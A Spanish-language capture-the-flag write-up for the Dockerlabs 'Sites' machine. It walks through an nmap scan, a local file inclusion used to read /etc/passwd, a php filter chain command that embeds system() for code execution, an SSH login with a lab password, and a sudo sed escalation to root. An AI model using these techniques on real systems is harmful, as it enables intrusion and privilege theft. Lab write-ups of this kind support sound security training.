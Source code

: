 Hoy haremos la maquina Sites de [Dockerlabs](https://dockerlabs.es)

![autor](./imagenes/autor.png)

Autor: [ElPingüinoDeMario](https://www.youtube.com/@ElPinguinoDeMario)

Dificultad: Medio

Vulnerabilidad: LFI(Local File Inclusion)

Herramientas a utilizar: Nmap, Hydra

​						Opcional: Gobuster

Scripts necesarios: [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

# INTRUSIÓN 

Primero comenzamos haciendo un escaneo de nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:29 -03
Initiating ARP Ping Scan at 19:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 19:29, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 19:29, 1.69s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-08-05 19:29:42 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se encuentra nada interesante así que continuaremos entrando desde el navegador para ver que encontramos.

#### PUERTO 80:

![puerto80](./imagenes/puerto80.png)

Luego de estar leyendo la página veo que trata como de un "foro" el cual explica un poco de la vulnerabilidad LFI. Revisé el código fuente y no encontré nada pero por probar antes de usar feroxbuster/gobuster se me ocurrió entrar a un archivo que nombraba en la "publicación", el cual se llama "vulnerable.php". Resulta que si es un archivo y ya no nos hace falta usar feroxbuster/gobuster ; nos dice lo siguiente:

![vulnerablePHP](./imagenes/vulnerablePHP.png)

Nos dice que le demos un "page" o "username", viendo que la extensión del archivo es '.php' podemos probar poner '?page=' o '?username=' e introducir algo, si en "username" ponemos cualquier cosa nos da la bienvenida pero en "page" se encuentra lo interesante ya que podremos hacer un LFI, y leer archivos del sistema. Primero probé poner "../../../../../../../../../etc/passwd" como algo típico pero quedaba en blanco, así que probé con "/etc/passwd" y ya me mostró el archivo, por lo que confirmamos que trata de un LFI.

Intento conseguir el "id_rsa" de root o de alguno de los usuarios por probar ya que antes vimos que el puerto 22 de ssh estaba abierto, pero no funciona; así que se me ocurre utilizar los [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) de php. Al probarlos vemos que funcionan por lo que significa que podemos ejecutar comandos ayudándonos con el script [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) simplemente poniendo 

```bash
python3 php_filter_chain_generator.py --chain "<?php system('comando que queramos'); ?>"
```

Estuve un rato probando en subir un archivo y enviarme una reverse shell pero finalmente la solución fue mucho mas simple ya que se encontraba un archivo llamado "archivitotraviesito" el cual tenia lo siguiente:
![archivitotraviesito](./imagenes/archivitotraviesito.png)

Por lo que ya tenemos la contraseña del ssh(el mensaje no nos dice el usuario pero como nosotros vimos el "/etc/passwd" y sabemos que hay uno llamado chocolate, pero para confirmar podríamos usar hydra o medusa dependiendo de los gustos). Nos conectamos por ssh con usuario "chocolate" y contraseña "lapasswordmasmolonadelacity" y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ya estando dentro podemos ejecutar "sudo -l" para ver si tenemos suerte y podemos ejecutar algun binario como root. Por suerte encontramos lo siguiente:

```bash
chocolate@2e528d8225be:~$ sudo -l
Matching Defaults entries for chocolate on 2e528d8225be:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 2e528d8225be:
    (ALL) NOPASSWD: /usr/bin/sed
chocolate@2e528d8225be:~$ 

```

luego de buscar en [GTFOBins](https://gtfobins.github.io/) vemos que podemos realizar una escalada mediante ese binario usando 

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

ejecutamos

```bash
bash
```

y listo. SOMOS ROOT

![root](./imagenes/root.png)

Opinión¿?:

Buena maquina para aprender un poco de LFI y muy entretenida











Por si te interesa:

[IG](https://instagram.com/macim0_)









Agradecimientos:

[messi](https://instagram.com/leomessi)